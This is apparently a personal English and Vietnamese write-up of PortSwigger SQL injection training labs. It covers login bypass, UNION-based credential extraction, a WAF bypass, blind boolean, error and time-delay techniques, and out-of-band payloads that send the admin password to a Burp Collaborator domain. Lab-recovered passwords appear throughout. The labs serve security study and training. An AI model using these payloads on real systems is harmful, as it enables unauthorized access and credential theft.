# [SQLi](https://portswigger.net/web-security/sql-injection)

Causes: 

- weak input validation, unparameterized queries, string concatenation to craft queries
- improper access control
- deprecated function from libraries...

Impact: unauthorized access to sensitive data

Categories: 

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data): modify a SQL query → get additional results.
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic): change a query → subvert the application's logic.
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks): retrieve data from n tables.
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind): the results of a query are not shown in the app's responses.

Prevention:  

- using parameterized queries/ prepared statements

Instead of using this:

```c#
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Using this: 

```c#
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); 
statement.setString(1, input); 
ResultSet resultSet = statement.executeQuery();
```

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Apprentice 

### Lab 1: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

- using burpsuite to intercept and modify request
- modify directly the url 

https://0a32007d0320a7ec817f2f18001e0033.web-security-academy.net/filter?category=Accessories%27+or+1=1--


### Lab 2: [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)


Method 1: Modify the `username` parameter, giving it the value: `administrator'--`

Method 2: Modify the `password` parameter to the value: `'or 1=1 --`

==> login successfully as `administrator`





## Practitioner

### Lab 1: [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Take input from 

- query string
- **JSON-format input**
- **XML-format input**

Step 1: Observation



- Stock check feature: sends `productId` and `storeId`in XML format

- Send request to tab repeater, try `storeId` with `1+1` or `1 union select null` and observe the result

- 

  

  => attack detected

  

Step 2: Bypass the WAF 

[Hackvertor extension](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

Encode > dec_entities/hex_entities

`<@hex_entities> 1 union select username || '~' || password FROM users </@hex_entities>>`

Copy its output, and sned in tab repeater:


Log in as admin:



### [Lab 2: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Determine the number of columns that are being returned by the query :


Try to add more null values until the server error disappears & the result include `null` value:



### [Lab 3: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

- Determine the number of columns that are being returned by the query and which columns contain text data:

  ```http
  GET /filter?category=Gifts'+union+select+'n33r9','n33r99'+from+dual-- 
  ```


=> you see that both 2 columns return text data (if I query 1 column, it returns server error).  

Search for the query to retrieve the database version from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), to craft the sqli payload as follow: 

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```



### [Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

Using BSp to intercept and modify the req:


Try the `union select` and see that the result of that query returns 2 columns containing text data. 



### [Lab 5: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

- Determine the number of columns and returned data type: the same as the Lab 4: 

  `'+union+select+'n33r9','abcxyz'#`

- retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

  

  

  ```html
                      <table class="is-table-longdescription">
                          <tbody>
                          <tr>
                              <th>pg_partitioned_table</th>
                          </tr>
                          <tr>
                              <th>pg_available_extension_versions</th>
                          </tr>
                          <tr>
                              <th>pg_shdescription</th>
                          </tr>
                          <tr>
                              <th>user_defined_types</th>
                          </tr>
                          <tr>
                              <th>udt_privileges</th>
                          </tr>
                          <tr>
                              <th>sql_packages</th>
                          </tr>
                          <tr>
                              <th>pg_event_trigger</th>
                          </tr>
                          <tr>
                              <th>pg_amop</th>
                          </tr>
                          <tr>
                              <th>schemata</th>
                          </tr>
                          <tr>
                              <th>routines</th>
                          </tr>
                          <tr>
                              <th>referential_constraints</th>
                          </tr>
                          <tr>
                              <th>administrable_role_authorizations</th>
                          </tr>
                          <tr>
                              <th>products</th>
                          </tr>
                          <tr>
                              <th>pg_foreign_data_wrapper</th>
                          </tr>
                          <tr>
                              <th>pg_prepared_statements</th>
                          </tr>
                          <tr>
                              <th>pg_largeobject_metadata</th>
                          </tr>
                          <tr>
                              <th>foreign_tables</th>
                          </tr>
                          <tr>
                              <th>sql_implementation_info</th>
                          </tr>
                          <tr>
                              <th>collation_character_set_applicability</th>
                          </tr>
                          <tr>
                              <th>check_constraint_routine_usage</th>
                          </tr>
                          <tr>
                              <th>pg_statio_user_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_cast</th>
                          </tr>
                          <tr>
                              <th>pg_user_mappings</th>
                          </tr>
                          <tr>
                              <th>pg_statio_all_tables</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_vacuum</th>
                          </tr>
                          <tr>
                              <th>pg_statio_sys_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_inherits</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_all_tables</th>
                          </tr>
                          <tr>
                              <th>column_options</th>
                          </tr
                          <tr>
                              <th>foreign_servers</th>
                          </tr>
                          <tr>
                              <th>sql_features</th>
                          </tr>
                          <tr>
                              <th>pg_stat_wal_receiver</th>
                          </tr>
                          <tr>
                              <th>pg_pltemplate</th>
                          </tr>
                          <tr>
                              <th>constraint_table_usage</th>
                          </tr>
                          <tr>
                              <th>pg_ts_parser</th>
                          </tr>
                          <tr>
                              <th>parameters</th>
                          </tr>
                          <tr>
                              <th>pg_stat_activity</th>
                          </tr>
                          <tr>
                              <th>pg_ts_template</th>
                          </tr>
                          <tr>
                              <th>element_types</th>
                          </tr>
                          <tr>
                              <th>pg_stat_subscription</th>
                          </tr>
                          <tr>
                              <th>pg_stat_all_tables</th>
                          </tr>
                          <tr>
                              <th>pg_locks</th>
                          </tr>
                          <tr>
                              <th>pg_seclabel</th>
                          </tr>
                          <tr>
                              <th>pg_ts_config</th>
                          </tr>
                          <tr>
                              <th>pg_stat_archiver</th>
                          </tr>
                          <tr>
                              <th>pg_stat_ssl</th>
                          </tr>
                          <tr>
                              <th>role_udt_grants</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_user_functions</th>
                          </tr>
                          <tr>
                              <th>pg_am</th>
                          </tr>
                          <tr>
                              <th>domain_udt_usage</th>
                          </tr>
                          <tr>
                              <th>column_privileges</th>
                          </tr>
                          <tr>
                              <th>pg_policy</th>
                          </tr>
                          <tr>
                              <th>pg_timezone_names</th>
                          </tr>
                          <tr>
                              <th>domains</th>
                          </tr>
                          <tr>
                              <th>pg_amproc</th>
                          </tr>
                          <tr>
                              <th>pg_replication_origin</th>
                          </tr>
                          <tr>
                              <th>information_schema_catalog_name</th>
                          </tr>
                          <tr>
                              <th>pg_ts_dict</th>
                          </tr>
                          <tr>
                              <th>character_sets</th>
                          </tr>
                          <tr>
                              <th>pg_db_role_setting</th>
                          </tr>
                          <tr>
                              <th>pg_publication</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_sys_tables</th>
                          </tr>
                          <tr>
                              <th>foreign_data_wrappers</th>
                          </tr>
                          <tr>
                              <th>routine_privileges</th>
                          </tr>
                          <tr>
                              <th>pg_views</th>
                          </tr>
                          <tr>
                              <th>pg_foreign_table</th>
                          </tr>
                          <tr>
                              <th>pg_statio_sys_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_database</th>
                          </tr>
                          <tr>
                              <th>user_mappings</th>
                          </tr>
                          <tr>
                              <th>pg_class</th>
                          </tr>
                          <tr>
                              <th>pg_foreign_server</th>
                          </tr>
                          <tr>
                              <th>pg_type</th>
                          </tr>
                          <tr>
                              <th>view_column_usage</th>
                          </tr>
                          <tr>
                              <th>applicable_roles</th>
                          </tr>
                          <tr>
                              <th>pg_group</th>
                          </tr>
                          <tr>
                              <th>views</th>
                          </tr>
                          <tr>
                              <th>domain_constraints</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_tables</th>
                          </tr>
                          <tr>
                              <th>view_table_usage</th>
                          </tr>
                          <tr>
                              <th>pg_transform</th>
                          </tr>
                          <tr>
                              <th>pg_stat_sys_indexes</th>
                          </tr>
                          <tr>
                              <th>role_routine_grants</th>
                          </tr>
                          <tr>
                              <th>role_column_grants</th>
                          </tr>
                          <tr>
                              <th>user_mapping_options</th>
                          </tr>
                          <tr>
                              <th>pg_aggregate</th>
                          </tr>
                          <tr>
                              <th>pg_stat_database_conflicts</th>
                          </tr>
                          <tr>
   
                          <tr>
                              <th>pg_stat_database</th>
                          </tr>
                          <tr>
                              <th>sql_sizing</th>
                          </tr>
                          <tr>
                              <th>triggers</th>
                          </tr>
                          <tr>
                              <th>triggered_update_columns</th>
                          </tr>
                          <tr>
                              <th>pg_tables</th>
                          </tr>
                          <tr>
                              <th>usage_privileges</th>
                          </tr>
                          <tr>
                              <th>foreign_table_options</th>
                          </tr>
                          <tr>
                              <th>pg_index</th>
                          </tr>
                          <tr>
                              <th>pg_prepared_xacts</th>
                          </tr>
                          <tr>
                              <th>pg_description</th>
                          </tr>
                          <tr>
                              <th>pg_auth_members</th>
                          </tr>
                          <tr>
                              <th>pg_statistic_ext</th>
                          </tr>
                          <tr>
                              <th>pg_cursors</th>
                          </tr>
                          <tr>
                              <th>pg_statio_all_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_stat_replication</th>
                          </tr>
                          <tr>
                              <th>pg_settings</th>
                          </tr>
                          <tr>
                              <th>role_table_grants</th>
                          </tr>
                          <tr>
                              <th>pg_statio_all_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_depend</th>
                          </tr>
                          <tr>
                              <th>pg_subscription</th>
                          </tr>
                          <tr>
                              <th>pg_subscription_rel</th>
                          </tr>
                          <tr>
                              <th>columns</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_user_tables</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_cluster</th>
                          </tr>
                          <tr>
                              <th>sequences</th>
                          </tr>
                          <tr>
                              <th>pg_stats</th>
                          </tr>
                          <tr>
                              <th>pg_seclabels</th>
                          </tr>
                          <tr>
                              <th>pg_attribute</th>
                          </tr>
                          <tr>
                              <th>check_constraints</th>
                          </tr>
                          <tr>
                              <th>pg_rules</th>
                          </tr>
                          <tr>
                              <th>pg_timezone_abbrevs</th>
                          </tr>
                          <tr>
                              <th>pg_default_acl</th>
                          </tr>
                          <tr>
                              <th>pg_stat_gssapi</th>
                          </tr>
                          <tr>
                              <th>pg_stat_sys_tables</th>
                          </tr>
                          <tr>
                              <th>pg_shseclabel</th>
                          </tr>
                          <tr>
                              <th>pg_opclass</th>
                          </tr>
                          <tr>
                              <th>pg_stat_bgwriter</th>
                          </tr>
                          <tr>
                              <th>pg_sequence</th>
                          </tr>
                          <tr>
                              <th>foreign_server_options</th>
                          </tr>
                          <tr>
                              <th>constraint_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_operator</th>
                          </tr>
                          <tr>
                              <th>pg_extension</th>
                          </tr>
                          <tr>
                              <th>view_routine_usage</th>
                          </tr>
                          <tr>
                              <th>pg_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_replication_slots</th>
                          </tr>
                          <tr>
                              <th>pg_roles</th>
                          </tr>
                          <tr>
                              <th>enabled_roles</th>
                          </tr>
                          <tr>
                              <th>data_type_privileges</th>
                          </tr>
                          <tr>
                              <th>key_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_rewrite</th>
                          </tr>
                          <tr>
                              <th>pg_statio_user_tables</th>
                          </tr>
                          <tr>
                              <th>pg_attrdef</th>
                          </tr>
                          <tr>
                              <th>sql_languages</th>
                          </tr>
                          <tr>
                              <th>pg_tablespace</th>
                          </tr>
                          <tr>
                              <th>pg_stat_all_indexes</th>
                          </tr>
                          <tr>
                              <th>attributes</th>
                          </tr>
                          <tr>
                              <th>pg_language</th>
                          </tr>
                          <tr>
                              <th>pg_opfamily</th>
                          </tr>
                          <tr>
                              <th>pg_publication_rel</th>
                          </tr>
                          <tr>
                              <th>pg_ts_config_map</th>
                          </tr>
                          <tr>
                              <th>pg_statio_sys_tables</th>
                          </tr>
                          <tr>
                              <th>pg_shdepend</th>
                          </tr>
                          <tr>
                              <th>table_constraints</th>
                          </tr>
                          <tr>
                              <th>pg_matviews</th>
                          </tr>
                          <tr>
                              <th>sql_sizing_profiles</th>
                          </tr>
                          <tr>
                              <th>pg_collation</th>
                          </tr>
                          <tr>
                              <th>collations</th>
                          </tr>
                          <tr>
                              <th>table_privileges</th>
                          </tr>
                          <tr>
                              <th>pg_stats_ext</th>
                          </tr>
                          <tr>
                              <th>column_domain_usage</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_publication_tables</th>
                          </tr>
                          <tr>
                              <th>pg_proc</th>
                          </tr>
                          <tr>
                              <th>users_jsnvah</th>
                          </tr>
                          <tr>
                              <th>pg_statio_user_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_available_extensions</th>
                          </tr>
                          <tr>
                              <th>tables</th>
                          </tr>
                          <tr>
                              <th>role_usage_grants</th>
                          </tr>
                          <tr>
                              <th>pg_init_privs</th>
                          </tr>
                          <tr>
                              <th>pg_range</th>
                          </tr>
                          <tr>
                              <th>pg_namespace</th>
                          </tr>
                          <tr>
                          <tr>
                              <th>pg_trigger</th>
                          </tr>
                          <tr>
                              <th>column_udt_usage</th>
                          </tr>
                          <tr>
                              <th>pg_enum</th>
                          </tr>
                       
                          <tr>
                              <th>pg_policies</th>
                          </tr>
                          <tr>
                              <th>pg_user</th>
                          </tr>
                          <tr>
                              <th>column_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_create_index</th>
                          </tr>
                          <tr>
                              <th>pg_constraint</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_functions</th>
                          </tr>
                          <tr>
                              <th>pg_conversion</th>
                          </tr>
                          <tr>
                              <th>foreign_data_wrapper_options</th>
                          </tr>
                          </tbody>
                      </table>
                  </div>
              </section>
  ```

  

- Get the details of the columns: 

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jsnvah'--`

```html
                       <tr>
                            <th>username_oeefzo</th>
                        </tr>
                       <tr>
                            <th>password_mldxse</th>
                        </tr>
```

- show the username and password of all user:

`'+UNION+SELECT+username_oeefzo,+password_mldxse+FROM+users_jsnvah--`

```html
                        <tr>
                            <th>administrator</th>
                            <td>msxqu3mqnmqsa5n2xblk</td>
                        </tr>
```


### [Lab 6: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

note: On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. There is a built-in table on Oracle called `dual`: `UNION SELECT 'abc' FROM dual`

- Define the number of columns and return types: **2 columns and text type**

`'+UNION+SELECT+'abc','def'+FROM+dual--`

- retrieve the list of tables: 

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`




- get column name:

`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XRVGVT'--`



- get creds:

`'+UNION+SELECT+USERNAME_IYJADB,+PASSWORD_PFYFJL+FROM+USERS_XRVGVT--`



administrator:jvja6if7qlajwx9p5mv6


### [Lab 7: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

- Verify that the query is returning three columns, using the following payload in the `category` parameter:

```
'+UNION+SELECT+NULL,NULL,NULL--
```



- Try replacing each null with the random value provided by the lab, for example:

```
'+UNION+SELECT+'nbAuwj',NULL,NULL--
```

- If an error occurs, move on to the next null and try that instead.




### [Lab 8: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

   ```
   '+UNION+SELECT+'abc','def'--
   ```

2. Use the following payload to retrieve the contents of the `users` table:

   ```
   '+UNION+SELECT+username,password+FROM+users--
   ```



**administrator:wqfnnzd20pwxgsby82av**


### [Lab 9: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

Lab description: 

Lỗ hổng sqli ở chức năng `category` filter cho phép sử dụng câu lệnh UNION SELECT để kết hợp truy vấn dữ liệu và lấy nhiều giá trị (vd: `username` và `password`) trong một cột duy nhất.

Steps: 

- Xác định số lượng cột mà truy vấn SQL gốc trả về:

  ```sql
  '+UNION+SELECT+NULL,NULL--
  ```

  

  

  

  => kết quả query trả về giá trị ở 2 cột

- Tìm cột hiển thị đầu ra trên trang web bằng cách chèn dữ liệu thử (ví dụ: 'abc') vào từng cột một. 

  

  

  

  => Giá trị trả về thứ 2 là dữ liệu kiểu text

- TÌm thông tin database sử dụng: 

Để trích xuất cả tên `username` và `password`, trong khi chỉ có một cột chuỗi duy nhất => có thể kết hợp nhiều giá trị vào các trường đơn. Cú pháp phụ thuộc vào ;loại cơ sở dữ liệu, vì vậy phải tìm ra cơ sở dữ liệu nào được sử dụng để tiến hành khai thác.



=> PostgreSQL 

- Kết hợp nhiều giá trị vào một cột, chẳng hạn dùng hàm || (PostgreSQL), + (SQL Server) hoặc CONCAT() (MySQL). Tạo truy vấn UNION phù hợp để kết xuất thông tin từ bảng users. Trích xuất dữ liệu `username`, `password`. 

  

  **administrator**~**r230fvqkzyeyihhsscpw**

- Sử dụng thông tin thu được để đăng nhập, hoàn thành lab:



Defense: 

### [Lab 10: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Lab description: Ứng dụng chứa lỗ hổng **Blind SQL Injection** tại cookie `TrackingId`. Kết quả truy vấn SQL không được hiển thị trực tiếp, nhưng nếu truy vấn trả về dữ liệu, trang sẽ hiển thị thông báo `"Welcome back"`. Mục tiêu là khai thác lỗ hổng để tìm mật khẩu của người dùng `administrator`



sửa TrackingId: `TrackingId=xyz' AND '1'='2`



=> Thông báo `Welcome back` không hiển thị nữa.

Steps:

- Kiểm tra xem bảng `users` có tồn tại hay không?

  

  => tồn tại bảng `users`

- Kiểm tra xem có user nào là `administrator` không?

  

  => tồn tại user `administrator`

- Kiểm tra độ dài `password`: send request to the Intruder

  COnfig req in the intruder tab: https://infosecwriteups.com/blind-sql-injection-with-conditional-responses-from-portswigger-net-0276fecc31af

  

  Kết quả có sự khác biệt rõ ràng về độ dài response 5432 và 5371: 

  

  Len(password) > 20 là sai (Không trả về "Welcome back") => len(password) =20

- đoán từng kí tự của password:

  ```
  Cookie: TrackingId=tJ1ux5PVRUX2vGYM ' and (select substring(password ,1,1) 
  from users where username = 'administrator')= 'a' --
  ```

  

  => `oarsjwjw0evzvshek47a`

  

Defense: 

### [Lab 11: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

Lab description: 

Ứng dụng chứa lỗ hổng **Blind SQL Injection** tại cookie `TrackingId`. Kết quả truy vấn SQL không được hiển thị trực tiếp, và ứng dụng không phản hồi khác biệt dựa trên việc truy vấn trả về dữ liệu hay không. Tuy nhiên, nếu truy vấn SQL gây ra lỗi, ứng dụng sẽ trả về một thông báo lỗi.

Cơ sở dữ liệu chứa bảng `users` với các cột `username` và `password`. Mục tiêu là khai thác lỗ hổng để tìm mật khẩu của người dùng `administrator`.

Câu truy vấn có thể có dạng: `SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'`

Cookie: `Cookie: TrackingId=chzqs7D5ztC4466n; session=szfVKbw4yMqEnhRWKeETvxDmwSAktNLj`

Steps: 

- Xác định tham số lỗi: 
  - Thêm `'` hoặc `''` vào `TrackingId` và quan sát kết quả trả về của từng truy vấn:





Khi chèn một dấu nháy đơn (`'`), server trả về lỗi. Nhưng khi chèn hai dấu nháy đơn (`''`), thì không có lỗi xảy ra. Điều này cho thấy có khả năng tồn tại lỗ hổng SQLi (input của người dùng được nhúng trực tiếp vào câu truy vấn), tiếp theo ta thử chèn một số câu lệnh SQL để dự đoán loại CSDL sử dụng trong bài lab.

- Dự đoán loại CSDL sử dụng, sử dụng truy vấn: 

  

  Hoặc một số câu truy vấn sử dụng các string concatenation khác nhau, vd: 

  `'||(SELECT '')||'`

  

  `'||(SELECT '' FROM dual)||'`

  

  => Server lỗi khả năng cao sử dụng hệ QTCSDL Oracle

- Tận dụng lỗi server trả về để suy luận dữ liệu:

Chèn truy vấn một bảng không tồn tại: `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` → lỗi.

=> Truy vấn gây lỗi khi bảng không tồn tại nhưng không lỗi khi bảng tồn tại ⇒ có thể **suy luận sự tồn tại của bảng**. Áp dụng truy vấn bảng `users`, ta có kết quả:

`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`



=> server ok => tồn tại bảng `users`

- Sử dụng `CASE WHEN` để kiểm tra điều kiện của truy vấn và response tương ứng của server, điều chỉnh truy vấn sao cho: ĐK là true => thông báo lỗi, từ đó lợi dụng để đoán password của user

`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`



`case`: kiểm tra điều kiện, đúng thì thực hiện biểu thức 1, sai thì thực hiện biểu thức 2. Câu lệnh trên do điều kiện 1=1 đúng => thực hiện biểu thức 1/0 (Lỗi division by 0) => server trả về tbao lỗi.

`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`


=> điều kiện sai => server OK

- Kiểm tra user `administrator` có tồn tại hay không?

`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`



=> tồn tại user `administrator`

- Kiểm tra số kí tự của password (send req to intruder tab):

`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`








=> Đến payload len>20 => server OK => condition FALSE => len(password) =20

- Đoán từng kí tự của password: `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`



Kết quả attack:



=> **administrator**:**s8r0244d226urs4641lh**



### [Lab 12: Visible error-based SQL injection](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

Lab description: 

Ứng dụng chứa lỗ hổng **SQL Injection** tại cookie `TrackingId`. Kết quả của truy vấn không được hiển thị trực tiếp, nhưng nếu truy vấn gây ra lỗi, ứng dụng sẽ trả về thông báo lỗi chi tiết. 

Cơ sở dữ liệu chứa bảng `users` với các cột `username` và `password`. Mục tiêu là khai thác lỗ hổng để tìm mật khẩu của người dùng `administrator`.

Kiểm tra tham số lỗi, tương tự như Lab 11: 

`Cookie: TrackingId=Te9XggW6WX7dbQz7; session=Ee2zPSrmKKBIOcYhRplYA9i4RzLdVJIZ`



=> Thông báo lỗi được in ra

Thêm `''` vào truy vấn => không có lỗi



=> khả năng lỗi sqli với truy vấn tham số `TrackingId`

Steps: 

- Sử dụng `cast()` chuyển data type và quan sát kết quả: 



=> lỗi arg của hàm AND (phải là kiểu boolean) sửa lại query: `' AND 1=CAST((SELECT 1) AS int)--`



=> Truy vấn hợp lệ

- Dùng câu lệnh select, lấy username: 

`' AND 1=CAST((SELECT username FROM users) AS int)--`



=> có vẻ như cả truy vấn và thông báo lỗi đều bị truncated => lỗi unterminated string (maybe `--` bị lược bỏ) => rút gọn query, xoá TrackingId: 


=> lỗi mới: do query return > 1 row

=> sửa query, cho return 1 row: 



=> cast() thất bại => trả về lỗi dữ liệu, kèm cả tên user (kiểu text): `administartor`

- Leak password: `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`



=> `administrator`:`g8l4nmt8x8db62a8wyj1`



[Lab 13: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Lab description: Ứng dụng chứa lỗ hổng **Blind SQL Injection** tại cookie `TrackingId`. Kết quả của truy vấn không được hiển thị trực tiếp, và ứng dụng không phản hồi khác biệt dựa trên việc truy vấn trả về dữ liệu hay gây lỗi. Tuy nhiên, do truy vấn được thực thi đồng bộ, có thể kích hoạt **độ trễ có điều kiện** để suy luận thông tin.

Steps: 

- Sửa `TrackingId` cookie thành:

  ```
  TrackingId=x'||pg_sleep(10)--
  ```





### [Lab 14: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Lab description**: Ứng dụng chứa lỗ hổng **Blind SQL Injection** tại cookie `TrackingId`. Kết quả của truy vấn không được hiển thị trực tiếp, và ứng dụng không phản hồi khác biệt dựa trên việc truy vấn trả về dữ liệu hay gây lỗi. Tuy nhiên, do truy vấn được thực thi đồng bộ, có thể kích hoạt **độ trễ có điều kiện** để suy luận thông tin. 

Cơ sở dữ liệu chứa bảng `users` với các cột `username` và `password`. Mục tiêu là khai thác lỗ hổng để tìm mật khẩu của người dùng `administrator`.

**Steps**: 

- Kiểm tra độ trễ củ response: Như lab trước
- Điều chỉnh query, điều kiện TRUE => có độ trễ trong response:

```sql
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

=> tồn tại user `administrator`

- Sử dụng truy vấn điều kiện và độ trễ response để dự đoán số kí tự password:

`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`



- Dự đoán từng kí tự của password, send req to intruder tab: 

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`



Kết quả: dựa vào độ chênh lệch relay time của các response: 





=> `administrator`:`93ncnzvhx130e7mz077o`



### [Lab 15: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

**Lab des:** 

Lab 15 chứa một lỗ hổng Blind SQL Injection với truy vấn `TrackingId`.

Truy vấn SQL được thực thi một cách bất đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên, có thể kích hoạt các tương tác out-of-band với một tên miền bên ngoài.

Để hoàn thành lab, phải khai thác lỗ hổng SQL Injection để tạo ra một truy vấn kích hoạt tra cứu DNS (DNS lookup) đến Burp Collaborator.

**Steps:**

- Thay đổi giá trị của cookie `TrackingId` thành một payload có khả năng kích hoạt tương tác với server Collaborator, kết hợp kỹ thuật SQL injection với XXE cơ bản:

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

```



### [Lab 16: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

**Lab des:** Bài lab này chứa một lỗ hổng Blind SQL Injection. Ứng dụng sử dụng cookie TrackingId cho mục đích phân tích, và thực hiện một truy vấn SQL chứa giá trị của cookie đó.

Truy vấn SQL được thực hiện một cách bất đồng bộ và không ảnh hưởng trực tiếp đến phản hồi của ứng dụng. Tuy nhiên, có thể kích hoạt tương tác out-of-band với một tên miền bên ngoài.

Cơ sở dữ liệu có một bảng tên là `users`, với các cột `username` và `password`. Nhiệm vụ là khai thác lỗ hổng Blind SQL Injection để tìm ra mật khẩu của tài khoản administrator.

Để hoàn thành lab, cần đăng nhập thành công vào tài khoản `administrator`.

**Steps**:

- Thay đổi giá trị của cookie `TrackingId` thành một payload có khả năng kích hoạt tương tác với server Collaborator, kết hợp kỹ thuật SQL injection với XXE cơ bản:

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```

- Nhấp chuột phải và chọn "Insert Collaborator payload" để chèn tên miền phụ (subdomain) của Burp Collaborator vào vị trí cần thiết trong cookie `TrackingId` đã chỉnh sửa.




- Chuyển đến tab Collaborator và nhấn “Poll now”. Đợi vài giây rồi thử lại nếu không thấy tương tác nào được hiển thị, vì truy vấn phía server được thực thi bất đồng bộ.  Nếu payload thành công, ứng dụng phía server sẽ thực hiện truy vấn ra bên ngoài (ví dụ: DNS lookup hoặc HTTP request) tới Burp Collaborator.





=> pass sẽ là phần sub domain của tên miền tương tác:       `**9jly9snx0kn9jylwhage.kay0s9k8xi6o5ch7p8jl77qf66cx0ood.oastify.com**`

=> `administrator`:`9jly9snx0kn9jylwhage`


